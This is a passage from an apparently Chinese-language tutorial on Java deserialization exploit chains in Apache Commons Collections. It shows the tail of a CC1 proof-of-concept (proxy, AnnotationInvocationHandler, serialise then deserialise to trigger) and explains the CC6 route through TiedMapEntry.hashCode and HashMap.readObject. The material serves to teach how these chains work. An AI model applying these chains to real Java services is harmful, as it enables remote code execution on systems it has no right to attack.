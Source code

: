 ```java
        Map proxyMap = (Map)Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},handler);
        handler = (InvocationHandler)construct.newInstance(Retention.class, proxyMap);
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```



 

## 高版本CC6

再想一遍cc1利用AnnotationInvocationHandler的原因，是因为AnnotationInvocationHandler可以put或者get原map对象，从而触发transform。在高版本时进行了修复，该类的readObject复制了一份linkedHashMap对象，而不是直接用传入的对象，自然也就不能触发transform

那就直接不用AnnotationInvocationHandler了，他不给我们用就不惯着它，在`org.apache.commons.collections.keyvalue.TiedMapEntry`中hashcode调用了getValue方法，getValue调用了map.get。所以只需要找到hashcode的调用

* ysoserial是⽤` java.util.HashSet#readObject `到` HashMap#put() `到 `HashMap#hash(key)`最后到 `TiedMapEntry#hashCode()`

* p神是`java.util.HashMap#readObject` 到` HashMap#hash()`到`TiedMapEntry#hashCode()`

HashMap的部分内容如下：

```java
static final int hash(Object key) {
     int h;
     return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
 }
private void readObject(java.io.ObjectInputStream s)
 throws IOException, ClassNotFoundException {
     s.defaultReadObject();
     for (int i = 0; i < mappings; i++) {
         @SuppressWarnings("unchecked")
         K key = (K) s.readObject();
         @SuppressWarnings("unchecked")
         V value = (V) s.readObject();
         putVal(hash(key), key, value, false, false);
 	}
 }
```
